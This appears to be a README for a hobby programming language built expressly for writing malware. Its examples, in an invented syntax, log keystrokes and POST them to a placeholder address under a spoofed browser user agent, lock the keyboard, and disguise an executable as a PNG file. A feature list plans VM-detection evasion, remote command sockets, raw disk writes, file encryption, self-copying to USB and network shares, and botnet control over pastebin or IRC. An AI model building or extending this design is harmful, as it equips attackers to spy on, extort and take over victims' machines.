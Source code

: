 # Malware Language

Language is only buildable in nix enivorments. But should be able to run on multiple enviroments

### Example code
Basic example
```
main:{
 keyboard.lock(); @ Locks the keyboard 

 window.notify("Oh hi mark!"); @ Utilizes builtin function

 keyboard.unlock(); @ Unlocks the keyboard
 system.exit();
}
```

Network POST example
```
main:{
 wait:(time.until("22:00")){ @ Waits until 22:00 today before exiting
  info := keyboard.log(); @ Logs everything the user enters
 }

 network.set_user_agent("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36"); @ Updates the user agent for this request
 network.POST("address", "port", info); @ Will send whatever the user entered 

 system.exit(); @ Exits the program
}
```

Transmog example
```
main:{
 object.set_header_target("png"); @ Will result in the end product being identified as a png
 object.set_extension(".png"); @ Sets the program extension
 
 window.notify("Hello, World!"); @ Prints "Hello, World!" to the screen

 system.exit(); @ Exits the program
}
```

## General ideas on what more the language can do
1. Includes tools to check if the malware is running in a vm, what kind of vm(?)
2. Include options to open socket to target, send commands and retrieve results, copy files, mv files etc.
3. Be able to write to specific disk blocks, write & read from the disk.
4. Encrypt files and decryptions methods. Should contain multiple different encryptions methods
5. Able to copy the executable to different locaitons
6. Metasploit compatability? Being able to run metasploit scripts?
7. Using pastebin for sending commands to zombies in a botnet.
8. IRC for sending commands to zombies in a botnet(?)
9. Copy to usb
10. Copy accross network shared folders

## The compiler should then be able to
1. Target plattform, windows, nix

## Technical parts
1. All directories created are temporarly and should be deleted when the program is finished
2. Internal inputs/outpus are all in json format
